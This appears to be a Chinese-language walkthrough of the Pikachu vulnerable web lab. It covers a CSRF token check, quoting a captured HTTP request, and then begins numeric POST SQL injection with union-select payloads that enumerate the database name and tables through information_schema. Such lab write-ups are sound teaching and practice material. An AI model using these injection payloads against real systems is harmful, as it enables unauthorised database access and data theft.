 ```http
```

第二次如下

```http
GET /vul/csrf/csrftoken/token_get_edit.php?sex=10010&phonenum=10010&add=10010&email=10010&token=91613632ec0d3169d4241490211&submit=submit HTTP/1.1
Host: 172.26.239.122
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.26.239.122/vul/csrf/csrftoken/token_get_edit.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=u19vivvv2j26lqb3622ebur90r
Connection: close
```

可以发现token值明显不同，服务端对这个进行校验，(token值够随机，防暴力破解好的话)就可以较为有效过滤掉伪造的CSRF请求

# SQL-Inject

## 数字型注入(post)

抓包，送到Repeater

![pikachu36](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu36.png)

id字段可注入，数字型

查字段，order by到3报Unknown column '3' in 'order clause'，说明就2个字段，id字段注入数据如下

```sql
id=1 order by 3
```

查显示位（2个显示位），post数据部分如下

```sql
id=-1 union select 1,2
```

![pikachu37](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu37.png)

查库名，查表名

```sql
id=-1 union select database(),group_concat(table_name) from information_schema.tables where table_schema=database()
```

![pikachu38](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu38.png)
